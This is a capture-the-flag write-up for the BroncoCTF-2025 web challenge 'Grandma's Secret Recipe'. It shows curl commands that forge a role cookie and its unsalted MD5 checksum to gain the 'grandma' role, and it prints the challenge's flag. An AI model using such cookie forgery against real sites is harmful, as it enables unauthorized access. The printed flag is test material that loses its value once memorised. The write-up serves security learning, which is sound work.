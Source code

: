 # Grandma's Secret Recipe

## Background

Grandma has been baking her world-famous cookies for decades, but she’s always kept her secret recipe locked away. Nobody—not even her most trusted kitchen helpers—knows the full list of ingredients.<br>
She insists it’s all about "the perfect balance of love and a pinch of mystery", but deep down, you know there’s more to it. Rumors say only Grandma herself is allowed to see the recipe, hidden somewhere in her kitchen.<br>
But, you were hired by Grandpa, who divorced her because she refused to share the recipe. Can you figure out the true secret behind her legendary cookies? 🍪👵

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge doesn't have source code**

## Enumeration

Access the link, it leads me to the page that has 3 buttons: `Login`, `Logout`, `Grandma's Pantry`.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-1.png)

The page says that I'm logging in as a kitchen and only Grandma can view the secret recipe. So I decided to click the button `Grandma's Pantry` to see if I can get the secret recipe.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-2.png)

It is clearly that we can't get the secret recipe. This challenge seems to be related to cookies, so I will check on the cookies.

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-3.png)

This page has two cookies: `checksum` and `role`. The `role` cookie contains the value of `"kitchen helper"` which role I'm currently login as. First, I will try to change the value of `role` to `Grandma` or `grandma` to see if I can get the recipe.<br>
I can change the value of the cookie directly, but I will use curl to improve my Linux skill:

```bash
curl --cookie "role=\"Grandma\""  https://grandma.web.broncoctf.xyz/grandma
```

Both value `"Grandma"` and `"grandma"` can't get me the recipe. I will only show the result of `"Grandma"` value:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-4.png)

Hmm, maybe I will need the use of `checksum` cookie. This cookie contains a value like a `MD5` hash. I will check if the value of `checksum` cookie is gotten from `MD5` hashing the value of `role` cookie. We need to test if the `checksum` cookie hashes the value of `role` cookie inside the quotes or includes the quotes as well.

```bash
echo -n "kitchen helper" | md5sum
```

And yes! Exactly what we think, the value of `checksum` cookie is really gotten from MD5 hashing the value of `role` cookie (without quotes):

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-5.png)

## Exploitation

Now, we will test two cases of cookies:
1. `checksum`: MD5hash(`grandma`), `role`: `"grandma"`
2. `checksum`: MD5hash(`Grandma`), `role`: `"Grandma"`

First case:

```bash
echo -n "grandma" | md5sum
#a5d19cdd5fd1a8f664c0ee2b5e293167
curl --cookie "checksum=a5d19cdd5fd1a8f664c0ee2b5e293167;role=\"grandma\""  https://grandma.web.broncoctf.xyz/grandma | grep "bronco"
```

And with the first case, we got the flag!

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/BroncoCTF-2025/images/image-6.png)

- **Flag: `bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}`**

## Conclusion

What we've learned:

1. Cookie Manipulation